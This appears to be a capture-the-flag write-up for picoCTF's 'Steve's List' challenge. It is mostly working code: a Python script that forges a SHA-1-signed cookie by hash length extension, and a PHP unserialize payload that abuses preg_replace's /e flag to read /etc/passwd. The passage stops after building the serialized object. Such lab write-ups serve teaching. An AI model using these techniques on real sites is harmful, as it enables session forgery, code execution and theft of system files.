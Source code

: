 # Steve's List

What a fun challenge! We have a pwned website and we have to figure out how to pwn it as well.

## Hash Length Extension
Looking at the `steves_list_backup.zip` we see the following files:
```
$ ls
cookies.php  includes  index.php  posts  root_data.php  Steve.png  templates
```

The first file to note is `cookies.php`:
```php
  2   if (isset($_COOKIE['custom_settings'])) {
        ...
 16     }
 17   } else {
 18     $custom_settings = array(0 => true);
 19     setcookie('custom_settings', urlencode(serialize(true)), time() + 86    400 * 30, "/");
 20     setcookie('custom_settings_hash', sha1(AUTH_SECRET . serialize(true)    ), time() + 86400 * 30, "/");
 21   }
```
Lines 19 and 20 show that if the cookie `custom_settings` isn't set aka if it is the user's first visit to the website, then two cookies are set: `custom_settings` and `custom_settings_hash`.

This can be verified in Google Chrome via the developer console (`Right Click -> Inspect Element -> 'Console'`)
```
> document.cookie
"custom_settings=b%253A1%253B; custom_settings_hash=2141b332222df459fd212440824a35e63d37ef69"
```

Line 5 of the same file is of key importance to us.
```php
  4     $custom_settings = urldecode($_COOKIE['custom_settings']);
  5     $hash = sha1(AUTH_SECRET . $custom_settings);
  6     if ($hash !== $_COOKIE['custom_settings_hash']) {
  7       die("Why would you hack Section Chief Steve's site? :(");
  8     }
```

Ah! So we are taking the cookie value in `custom_settings`, prepending the `AUTH_SECRET` and performing a sha1 hash. This screams to us, **LENGTH EXTENSION ATTACK**. For more details on this technique, [click here](http://en.wikipedia.org/wiki/Length_extension_attack).

Essentially, if we know the input data, the resulting hash, and the hash type, we can append malicious code to the initial data and receive a hash that will pass the given test. To do the hash calculation, we will utilize [hlextend](https://github.com/stephenbradshaw/hlextend).

To prove this, let's test hlextend.
```python
import hlextend
import requests
import subprocess

def php_urlencode(s):
    '''Return php urlencoded string'''
    print "ENCODE: " + s
    s = s.replace("\x00", "\0")
    encode_php = "<?php $text = <<<EOD\n{}\nEOD;\necho urlencode($text);\n?>".format(s)

    with open('encode_me.php', 'w') as f:
        f.write(encode_php)

    output = subprocess.check_output('php encode_me.php', shell=True)
    return output

url = 'http://steveslist.picoctf.com'
original_hash = '2141b332222df459fd212440824a35e63d37ef69'
original_data = 'b:1;'
appended_data = 'pwned'
key_length = 8

# Get our new hash for our new data
sha = hlextend.new('sha1')
cookie = sha.extend(appended_data, original_data, key_length, original_hash)
cookie_hash = sha.hexdigest()

# Send a request with our new cookie to verify our method works
output = php_urlencode(cookie)
cookies = {'custom_settings_hash': cookie_hash,
           'custom_settings': output}
print requests.get(url, cookies=cookies).text
```
In short, we appended "pwned" to the original data of "b:1;", ran the new data through `hlextend.py` to receive our new hash, then requested the web page with our new cookie.
```html
$ python hlextend_test.py
<html>
  <head>
    <title>Steve's List</title>
    <link rel="stylesheet" href="http://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" />
    <link rel="stylesheet" href="steves_list.css" />
    <script src="javascript" src="http://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/js/bootstrap.min.js"></script>
  ...
  
  ...
<!-- POST 0wn3d by D43d4lu5 C0rp: OWNED OWNED OWNED OWNED OWNED OWNED SECTION CHIEF STEVE IS THE WORST<br><img src='./daedalus.png'><br><script>alert(1);</script><marquee>rekt</marquee><br><br><blink>we changed your secret</blink><br><br><marquee><blink>bet you'll never get control of this site back</blink></marquee><br><blink>look at this top quality tag we added</blink> --><!-- POST I'm Section Chief Steve: I'm the best.<br>The very best.<br><img src='./Steve.png'> -->
```
Because we see the HTML for the home page, we know that our cookie creation worked. Winning!

Now, what can we do with this new cookie creation?

## Unserialize object creation

Let's take a quick look at the `classes.php` file:
```php
...
  class Post {
    protected $title;
    protected $text;
    protected $filters;
    function __construct($title, $text, $filters) {
      $this->title = $title;
      $this->text = $text;
      $this->filters = $filters;
    }

    function get_title() {
      return htmlspecialchars($this->title);
    }

    function display_post() {
      $text = htmlspecialchars($this->text);
      foreach ($this->filters as $filter)
        $text = $filter->filter($text);
      return $text;
    }

    function __destruct() {
      // debugging stuff
      $s = "<!-- POST " . htmlspecialchars($this->title);
      $text = htmlspecialchars($this->text);
      foreach ($this->filters as $filter)
        $text = $filter->filter($text);
      $s = $s . ": " . $text;
      $s = $s . " -->";
      echo $s;
    }
  };
...
?>
```

We have a *Post* class that contains the `title` of a post, the `text` of a post, and `filters` on a post to essentially write markdown-style data without having to worry about html tags (or at least that was the intended purpose ;-)

There is a hint in the destructor of `// debugging stuff`. Typically, this is something to look out for.

When called, the destructor calls each filter in the Post's `filters` on the `text` of the Post. Let's take a closer look at what the filter does.
```php
<?php
  class Filter {
    protected $pattern;
    protected $repl;
    function __construct($pattern, $repl) {
      $this->pattern = $pattern;
      $this->repl = $repl;
    }
    function filter($data) {
      return preg_replace($this->pattern, $this->repl, $data);
    }
  };
```

Ah ha! Good ole `preg_replace`. This function replaces the match of the regex `pattern` in `data` with `repl`.
Here is the given example in the code:
```php
new Filter("/\[i\](.*)\[\/i\]/i", "<i>\\1</i>")
```
Applying this filter will do the following:

Before
```
[i] Words words words [/i]
```
After
```
<i> Words words words </i>
```

There is a fun feature with `prag_replace` that we can exploit here. In our regex `pattern` if we include the `e` flag, then the regex match will be replaced with the result of executable code aka a function, such as our old friends `file_get_contents` or `system`.

Let's make a filter that will utilize this "feature".

```php
$filter = [new Filter('/^(.*)/e', 'file_get_contents(\'/etc/passwd\')')];
```
This filter will replace everything in the `text` attribute of a Post and replace it with the contents of `/etc/passwd/`.

Now that we have a malicious filter, let's create a malicious post and test our hypothesis of calling a custom filter from the destructor.

```php
<?php
require_once('steves_list_backup/includes/classes.php');
$filter = [new Filter('/^(.*)/e', 'file_get_contents(\'/etc/passwd\')')];

$text = "file_get_contents";
$text = htmlspecialchars($text);

$title = "yay_flag";
$title = htmlspecialchars($title);

$post = new Post($title, $text, $filter);

$post_ser = serialize($post);

$ser = $post_ser;
echo $ser;
?>
```



